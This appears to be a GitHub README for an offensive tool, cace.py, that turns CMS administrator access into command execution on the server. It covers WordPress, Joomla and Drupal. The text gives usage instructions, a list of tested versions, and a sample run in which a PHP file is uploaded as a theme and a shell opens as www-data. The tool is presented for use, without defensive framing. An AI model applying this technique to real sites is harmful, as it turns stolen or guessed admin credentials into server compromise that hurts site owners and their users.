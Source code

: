 CMS Admin Command Execution

Trying to execute php code via admin panel.

Requirement:  
Python 2.7  
Python Requests lib (http://docs.python-requests.org/en/latest/)  
  
Tested on:  
Wordpress 4.1.1(latest); 3.9.3; 3.8; 3.7; 3.5; 3.4; 3.0; 2.7  
Joomla 3.4.1(latest); 2.5.28; 1.5.26  
Drupal 7.36(latest stable)  
```
usage: cace.py [-h] -c CMS -u URL -l LOGIN -p PWD  
  
CMS Admin Command Execution  
  
optional arguments:  
  -h, --help            show this help message and exit  
  -c CMS, --cms CMS     1 - Wordpress >= 2.7; 2 - Joomla; 3 - Drupal 7.*  
  -u URL, --url URL     Url to CMS folder, example http://1.2.3.4/blog/  
  -l LOGIN, --login LOGIN  
                        Administrator login  
  -p PWD, --pwd PWD     Administrator password  
    
Example:  
```   
```
test@ubuntu:~$ python cace.py -c 1 -u http://127.0.0.1/wp35/ -l admin -p admin  
[*] Trying to get upload form token for WP >= 3.9.  
[-] Failed to get token for WP >= 3.9.  
[*] Trying to get upload form token for WP <= 3.8.5.  
[*] Uploading php file as theme.  
[*] Trying to get os-shell.  
os-shell>id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
os-shell>uname -a  
Linux ubuntu 3.16.0-33-generic #44~14.04.1-Ubuntu SMP Fri Mar 13 10:33:29 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux  
os-shell>exit

